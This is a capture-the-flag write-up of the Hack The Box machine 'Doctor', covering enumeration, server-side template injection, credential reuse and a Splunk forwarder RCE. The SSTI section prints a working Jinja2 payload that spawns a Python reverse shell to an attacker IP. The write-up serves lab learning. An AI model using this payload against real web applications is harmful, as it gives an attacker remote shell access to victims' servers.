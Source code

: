 # Doctor

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (75) (5) (1).png" alt=""><figcaption></figcaption></figure>

### Doctors.htb

The website revealed a basic corporate page:

<figure><img src="../../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.

<figure><img src="../../../.gitbook/assets/image (40) (2) (2).png" alt=""><figcaption></figcaption></figure>

Here, we can create an account and test this service. When logged in, we can see a few functions.

<figure><img src="../../../.gitbook/assets/image (123) (1).png" alt=""><figcaption></figcaption></figure>

When examining the page source, we can find an `/archive` endpoint.&#x20;

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.&#x20;

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.

<figure><img src="../../../.gitbook/assets/image (21) (1) (5).png" alt=""><figcaption></figcaption></figure>

When I visited the `/archive` endpoint, we would actually see that it works!

<figure><img src="../../../.gitbook/assets/image (2) (6) (3) (2).png" alt=""><figcaption></figcaption></figure>

For SSTI, we can follow this table on HackTricks to determine which framework is being used.

<figure><img src="../../../.gitbook/assets/image (12) (7) (1).png" alt=""><figcaption></figcaption></figure>

For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

{% code overflow="wrap" %}
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```
{% endcode %}

When we submit this as a message, it would spawn a reverse shell.

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.

<figure><img src="../../../.gitbook/assets/image (128) (1).png" alt=""><figcaption></figcaption></figure>

When checking for other users, there was only the user `shaun`.

<figure><img src="../../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can try using `su` with this credential, and it works.

<figure><img src="../../../.gitbook/assets/image (124) (2).png" alt=""><figcaption></figcaption></figure>

### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.

<figure><img src="../../../.gitbook/assets/image (126) (3) (1).png" alt=""><figcaption></figcaption></figure>

Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

We can easily run the exploit to give us a reverse shell as root.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (42) (6).png" alt=""><figcaption></figcaption></figure>
